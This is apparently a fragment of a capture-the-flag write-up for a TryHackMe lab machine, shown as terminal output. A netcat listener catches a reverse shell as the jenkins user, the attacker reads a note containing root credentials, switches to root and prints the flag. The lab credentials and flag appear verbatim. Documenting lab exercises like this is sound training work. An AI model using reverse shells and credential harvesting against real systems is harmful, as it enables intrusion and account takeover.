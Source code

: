 ```bash
┌──(kali㉿kali)-[~/thm/internal]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.67.120] 60012
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
ls -la /opt
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat /opt/note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:tr0ub13guM!@#123
```

```bash
aubreanna@internal:~$ su - root
Password:
root@internal:~# cat root.txt
THM{d0ck3r_d3str0y3r}
root@internal:~#
```
